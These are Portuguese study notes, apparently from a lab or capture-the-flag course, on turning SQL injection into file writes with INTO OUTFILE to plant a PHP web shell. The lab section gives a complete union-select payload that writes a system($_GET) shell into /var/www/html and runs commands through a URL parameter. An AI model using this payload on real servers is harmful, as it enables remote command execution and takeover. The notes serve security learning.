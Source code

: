 Utilizar do SQL para salvar algum valor em um arquivo na maquina que está hosteando o serviço de banco de dados, ou aplicação, e então conseguir acessar via url o arquivo, e então conseguir uma web shell

Para isso utilizamos a função into outfile, como por exemplo: select @@version into outfile "/tmp/version.txt" onde a versão do bd seria colocada em um arquivo version.txt na pasta tmp do servidor. Mas as vezes não temos permissões para fazer a criação do arquivo. 

into outfile, não consegue sobreescrever
into dumpfile, não processa caracteres especiais

pasta do apache: /var/www/html/ 

pasta do nginx:




<h1>Laboratório</h1> 
Nesse laboratório, temos a mesma loja do sql manual, ou seja, temos 4 colunas, e conseguimos fazer com que salvamos no /var/www/html, um arquivo, como ola.php, e na query temos, ' or 1=1 union select 1,2,3,"<?php system($_GET[0]);?>" into outfile "/var/www/html/ola.php", quando acessamos esse arquivo via url, e adicionamos um parametro 0, e igualamos a algum comando, podemos ver que ele responde corretamente, então já temos a webshell, com isso é só procurarmos a flag, e dar um cat nela.